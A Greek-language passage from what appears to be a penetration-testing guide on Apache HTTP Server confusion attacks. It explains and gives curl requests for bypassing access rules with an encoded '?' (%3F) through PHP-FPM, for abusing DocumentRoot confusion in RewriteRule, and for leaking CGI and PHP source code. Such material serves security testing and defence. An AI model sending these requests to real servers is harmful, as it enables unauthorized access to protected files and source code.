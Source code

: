 Είναι δυνατόν να αποκτήσετε πρόσβαση σε αρχεία που ο χρήστης δεν θα έπρεπε να έχει πρόσβαση, ακόμη και αν η πρόσβαση θα έπρεπε να απορριφθεί με ρυθμίσεις όπως:
```xml
<Files "admin.php">
AuthType Basic
AuthName "Admin Panel"
AuthUserFile "/etc/apache2/.htpasswd"
Require valid-user
</Files>
```
Αυτό συμβαίνει επειδή από προεπιλογή το PHP-FPM θα λαμβάνει διευθύνσεις URL που τελειώνουν σε `.php`, όπως `http://server/admin.php%3Fooo.php` και επειδή το PHP-FPM θα αφαιρεί οτιδήποτε μετά τον χαρακτήρα `?`, η προηγούμενη διεύθυνση URL θα επιτρέπει τη φόρτωση του `/admin.php` ακόμη και αν ο προηγούμενος κανόνας το απαγόρευε.

### DocumentRoot Confusion
```bash
DocumentRoot /var/www/html
RewriteRule  ^/html/(.*)$   /$1.html
```
Ένα διασκεδαστικό γεγονός σχετικά με το Apache είναι ότι η προηγούμενη ανακατεύθυνση θα προσπαθήσει να αποκτήσει πρόσβαση στο αρχείο τόσο από το documentRoot όσο και από το root. Έτσι, ένα αίτημα προς `https://server/abouth.html` θα ελέγξει για το αρχείο στο `/var/www/html/about.html` και `/about.html` στο σύστημα αρχείων. Αυτό μπορεί βασικά να καταχραστεί για να αποκτήσει πρόσβαση σε αρχεία στο σύστημα αρχείων.

#### **Αποκάλυψη Κώδικα Πηγής Από τον Διακομιστή**

* **Αποκάλυψη Κώδικα Πηγής CGI**

Απλά προσθέτοντας ένα %3F στο τέλος είναι αρκετό για να διαρρεύσει ο κώδικας πηγής ενός cgi module:
```bash
curl http://server/cgi-bin/download.cgi
# the processed result from download.cgi
curl http://server/html/usr/lib/cgi-bin/download.cgi%3F
# #!/usr/bin/perl
# use CGI;
# ...
# # the source code of download.cgi
```
* **Αποκάλυψη Κώδικα PHP**

Αν ένας διακομιστής έχει διαφορετικά domains με ένα από αυτά να είναι στατικό domain, αυτό μπορεί να εκμεταλλευτεί για να διασχίσει το σύστημα αρχείων και να διαρρεύσει τον κώδικα php:
```bash
# Leak the config.php file of the www.local domain from the static.local domain
curl http://www.local/var/www.local/config.php%3F -H "Host: static.local"
# the source code of config.php
```
#### **Τοπική Manipulation Gadgets**

Το κύριο πρόβλημα με την προηγούμενη επίθεση είναι ότι από προεπιλογή οι περισσότερες προσβάσεις στο σύστημα αρχείων θα απορρίπτονται όπως στην [προκαθορισμένη ρύθμιση](https://github.com/apache/httpd/blob/trunk/docs/conf/httpd.conf.in#L115) του Apache HTTP Server:
```xml
<Directory />
AllowOverride None
Require all denied
</Directory>
```
Ωστόσο, τα λειτουργικά συστήματα [Debian/Ubuntu](https://sources.debian.org/src/apache2/2.4.62-1/debian/config-dir/apache2.conf.in/#L165) επιτρέπουν από προεπιλογή το `/usr/share`:
```xml
<Directory /usr/share>
AllowOverride None
Require all granted
</Directory>
```